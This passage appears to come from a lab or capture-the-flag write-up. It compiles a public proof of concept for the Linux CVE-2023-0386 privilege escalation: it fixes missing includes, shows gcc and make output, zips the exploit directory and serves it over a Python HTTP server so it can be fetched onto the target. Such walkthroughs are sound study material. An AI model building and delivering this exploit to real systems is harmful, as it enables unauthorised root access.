 A compilation error occurred on my machine; to resolve this problem, simply install the libfuse library as indicated above. Let's try again:

```bash
# Problem:
make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘main’:
fuse.c:214:12: error: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
214 | while (read(fd, content + clen, 1) > 0)
| ^~~~
| fread
fuse.c:216:5: error: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
216 | close(fd);
| ^~~~~
| pclose
fuse.c:221:5: error: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
221 | rmdir(mount_path);
| ^~~~~
make: *** [Makefile:2: all] Error 1
# Solution:
Add the following two includes to the fuse.c file
#include <unistd.h>
#include <sys/stat.h>
```

Second problem: system functions used in the exploit are not recognized, likely due to an omission of including system libraries. As indicated above, simply add the necessary **includes**. Let's try again (no more errors promised):

```bash
make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/14/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xb1af): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

Perfect! Our exploit has been compiled successfully. Let's put all this in a zip file to send it to the target machine:

```bash
zip -r exploit.zip CVE-2023-0386-main
adding: CVE-2023-0386-main/ (stored 0%)
adding: CVE-2023-0386-main/exp (deflated 77%)
adding: CVE-2023-0386-main/gc (deflated 86%)
adding: CVE-2023-0386-main/getshell.c (deflated 58%)
adding: CVE-2023-0386-main/fuse.c (deflated 68%)
adding: CVE-2023-0386-main/test/ (stored 0%)
adding: CVE-2023-0386-main/test/mnt (deflated 82%)
adding: CVE-2023-0386-main/test/mnt.c (deflated 62%)
adding: CVE-2023-0386-main/test/fuse_test.c (deflated 74%)
adding: CVE-2023-0386-main/Makefile (deflated 20%)
adding: CVE-2023-0386-main/exp.c (deflated 64%)
adding: CVE-2023-0386-main/fuse (deflated 59%)
adding: CVE-2023-0386-main/README.md (deflated 39%)
adding: CVE-2023-0386-main/ovlcap/ (stored 0%)
adding: CVE-2023-0386-main/ovlcap/.gitkeep (stored 0%)

# Make sure you are in the directory containing the files needed for the exploit
serve # personal alias, use the command: python3 -m http.server 80 instead
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```